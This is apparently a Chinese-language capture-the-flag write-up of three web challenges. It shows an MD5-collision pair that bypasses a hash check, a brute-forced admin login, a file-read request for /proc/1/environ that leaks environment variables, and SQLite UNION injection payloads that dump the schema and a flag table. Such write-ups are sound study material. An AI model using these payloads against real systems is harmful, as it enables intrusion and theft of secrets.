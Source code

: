#### ez_readfile

进入题目显示源码

![image-20250302153802954](assets/image-20250302153802954.png)

需要用md5强碰撞绕过第一步：

```
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

成功绕过，后面推断是文件包含，暂时找不到flag位置



#### ezzzz_pickle

进入是一个登陆界面（忘记截图了）

尝试用admin爆破登陆，爆破出密码登陆成功

![image-20250304111101652](assets/image-20250304111101652.png)

进入一个界面点读取flag显示这个，尝试抓包发现是通过POST传输文件名

![image-20250304111210741](assets/image-20250304111210741.png)

题目叫pickle，网上查是python的反序列化，学着网上的方法直接读环境变量拿到flag

```
filename=/proc/1/environ
```

![image-20250304112321542](assets/image-20250304112321542.png)

*这个是非预期解，一般环境变量会把flag删掉，正常来说要走pickle反序列化*



#### SQL???

进去是一个这样的页面

![image-20250304171928415](assets/image-20250304171928415.png)

查询语句已经给出来了，而且发现URL后面接着`/?id = 1`，知道注入点就在这，发现不是MYSQL数据库，哈基俊说是SQLite，语法有所不同

> database()那些用不了了，注释符由#变成了--

试出来查询的字段数是5，构造联合查询：

```
?id=1 union select 1,2,3,4,5;--
```

![image-20250304172346550](assets/image-20250304172346550.png)

发现回显点很嗨多，直接查表名：

```
?id=1 union select 1,(select sql from sqlite_master),(select group_concat(sql) from sqlite_master),4,5;--
```

![image-20250304172441839](assets/image-20250304172441839.png)

看见flag表，直接读拿到flag：

```
?id=1 union select 1,(select sql from sqlite_master),(select group_concat(sql) from sqlite_master),(select * from flag),5;--
```

![image-20250304172530528](assets/image-20250304172530528.png)
